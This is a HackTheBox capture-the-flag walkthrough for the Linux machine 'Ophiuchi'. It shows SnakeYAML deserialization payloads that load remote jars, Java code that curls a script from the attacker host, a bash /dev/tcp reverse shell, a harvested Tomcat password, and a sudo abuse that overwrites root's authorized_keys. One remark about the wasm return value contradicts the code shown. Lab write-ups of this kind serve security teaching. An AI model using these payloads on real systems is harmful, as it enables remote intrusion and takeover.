


# Ophiuchi - HackTheBox
Linux, 30 Base Points, Medium

## Machine


## Ophiuchi Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi]
└──╼ $nmap -sC -sV -oA nmap/Ophiuchi 10.10.10.227
# Nmap 7.80 scan initiated Mon Feb 22 22:01:34 2021 as: nmap -sC -sV -oA Ophiuchi 10.10.10.227
Nmap scan report for 10.10.10.227
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 22 22:01:46 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

We can see port ```8080``` which is ```Apache Tomcat 9.0.38```.

Let's try to browse this port:


So If it's yaml parser we can use [marshalsec](https://github.com/mbechler/marshalsec), Reference [snakeyaml-deserilization-exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

I found github contains ```yaml-payload``` using SnakeYAML deserialization gadge taken from above marshalsec.

First, Let's make a poc to check if the payload work.

I'm changed ```AwesomeScriptEngineFactory``` method from ```src/artsploit/AwesomeScriptEngineFactory.java``` to:
```java
public AwesomeScriptEngineFactory() {
        try {
                        Runtime.getRuntime().exec("ping -c 1 10.10.14.14");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Compile it:
```console
┌─[✗]─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $javac src/artsploit/AwesomeScriptEngineFactory.java
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $jar -cvf ping-check.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1603) (out= 662)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1473) (out= 388)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
```

Listen to port ```8000``` to make target machine download the jar file:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And open ```tcpdump``` to check if we get ```ping``` request from target machine:

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

And on website I put the following payload:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/ping-check.jar"]
  ]]
]
```

Click on ```Parse``` and check we can see on ```tcpdump``` the follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
01:56:39.273276 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
```

Great, we can run code on target machine.


So we need:
1. Create shell.sh which contains:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```
2. Download the shell.sh from target machine
3. Listen to port 4242 using ```nc``` execute the shell.sh

First, Change again ```AwesomeScriptEngineFactory``` method to:
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("curl http://10.10.14.14:8000/shell.sh -o /tmp/shell.sh");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
Compile it with name ```getshell.jar```

Create another jar by change ```AwesomeScriptEngineFactory``` method to:
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("/bin/bash /tmp/shell.sh");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```
Compile it with name ```runshell.jar```.

Start ```nc``` listener:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
```

And put the following payloads on port ```8080```:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/getshell.jar"]
  ]]
]
```

And then:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/runshell.jar"]
  ]]
]
```

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
10.10.10.227: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 41688
bash: cannot set terminal process group (805): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ ls /home
admin
```

And we got ```tomcat``` user shell, We can see ```admin``` user in home directory, Let's try to find ```admin``` user password.

After running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) I found the tomcat config directory on path ```/opt/tomcat/conf```, Now let's try to search for ```admin```:

```console
tomcat@ophiuchi:/$ ls /home
admin
tomcat@ophiuchi:/$ cd /opt/tomcat/conf
tomcat@ophiuchi:~/conf$ grep -r "admin" .
grep -r "admin" .
./tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

Great, we found ```admin``` password: ```password="whythereisalimit"```, Let's try it:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/]
└──╼ $ssh admin@10.10.10.227
The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
admin@10.10.10.227's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 20 Mar 2021 01:01:35 AM UTC

  System load:             0.0
  Usage of /:              19.9% of 27.43GB
  Memory usage:            17%
  Swap usage:              0%
  Processes:               215
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.227
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4c57


176 updates can be installed immediately.
56 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
admin@ophiuchi:~$ cat user.txt
27eb7d9f9f1532ee4d0214347ba1387c
```

We have user flag ```27eb7d9f9f1532ee4d0214347ba1387c```.

### Root

We have ```admin``` user password so let's try to run ```sudo -l```:

```console
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Means we can run ```/usr/bin/go run /opt/wasm-functions/index.go``` with root privilages.

Let's observe the file ```/opt/wasm-functions/index.go```:

```go
admin@ophiuchi:/tmp/test/wasm-functions$ cat /opt/wasm-functions/index.go
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)


func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

As we can see, It's running ```index.go``` that's first looking for file ```main.wasm``` and check its ```instance.Exports["info"]``` value.

If ```instance.Exports["info"] == "1"``` It's running ```deploy.sh``` as root.

We can see ```index.go```  looking for ```main.wasm``` and ```deploy.sh``` in current directory, It's mean we can create our ```main.wasm``` that return value != 1 and to write reverse shell in ```deploy.sh```.

So first, to create ```main.wasm``` we can use:
1. [WasmFiddle](https://wasdk.github.io/WasmFiddle/) If we want to do it online.
2. [c-to-webassembly](https://github.com/richardanaya/c-to-webassembly) by compile and convert C to wasm.

Let's try to first option.

1. Create ```main.wasm```:
Write the following code:
```c
int main() { 
  return 1;
}

int info() { 
  return 1;
}
```

Build and download as ```wasm```:



2. Create ```deploy.sh```:
```bash
echo "ssh-rsa <YOUR_SSH_PUBLIC_KEY>" > /root/.ssh/authorized_keys
```

Upload it to target machine:
```console
admin@ophiuchi:/tmp/test$ ls
deploy.sh  main.wasm
```

And run ```index.go``` on target machine:
```console
admin@ophiuchi:/tmp/test$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

```

Now, just connect using ```ssh``` to ```root``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/]
└──╼ $ssh root@10.10.10.227
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 20 Mar 2021 05:55:58 PM UTC

  System load:             0.0
  Usage of /:              20.0% of 27.43GB
  Memory usage:            19%
  Swap usage:              0%
  Processes:               222
  Users logged in:         1
  IPv4 address for ens160: 10.10.10.227
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4c57


176 updates can be installed immediately.
56 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb  5 17:51:32 2021
root@ophiuchi:~# cat /root/root.txt 
b9e1e34c6a411637be9afdb17456997c
root@ophiuchi:~# 
```

And we get the root flag ```b9e1e34c6a411637be9afdb17456997c```.